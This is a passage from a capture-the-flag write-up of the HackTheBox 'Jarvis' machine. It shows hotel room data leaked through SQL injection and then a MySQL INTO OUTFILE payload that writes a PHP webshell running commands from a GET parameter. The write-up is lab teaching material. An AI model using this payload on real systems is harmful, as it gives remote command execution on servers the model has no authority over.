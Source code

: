 ```
1|Superior Family Room|270|Superior room, perfect for luxury families.
Big room with a lot of extras||room-6.jpg| Perfect for traveling couples Breakfast included Price does not include VAT & services fee,
2|Suite|149|Suite room is perfect||room-1.jpg| Only 10 rooms are available Breakfast included Price does not include VAT & services fee,
3|Double Room|199|Perfect room for couples <3|
$

/ per night


Go to book!
```

Hmm... Nothing weird...

**Maybe we can write a PHP webshell via `Into outfile`?**
```
7 UNION SELECT NULL,"<?php system($_GET['cmd']); ?>",NULL,NULL,NULL,NULL,NULL into outfile "/var/www/html/webshell.php"-- -
```

> Note: The above payload is from [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/MySQL%20Injection.md#into-outfile-method).

![](https://github.com/siunam321/CTF-Writeups/blob/main/HackTheBox/Jarvis/images/Pasted%20image%2020230728201013.png)
